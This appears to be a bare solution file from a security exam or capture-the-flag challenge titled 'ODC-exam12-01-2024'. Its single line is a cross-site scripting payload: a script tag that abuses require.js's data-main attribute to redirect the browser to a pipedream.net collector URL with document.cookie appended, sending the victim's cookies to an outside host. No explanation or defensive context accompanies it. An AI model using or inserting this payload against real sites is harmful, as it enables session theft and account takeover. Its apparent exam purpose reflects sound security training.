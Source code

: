# ODC-exam12-01-2024

<script data-main='data:1,(location.href="https://enlf46zz5ax8h.x.pipedream.net"+document.cookie)' src='require.js'></script>


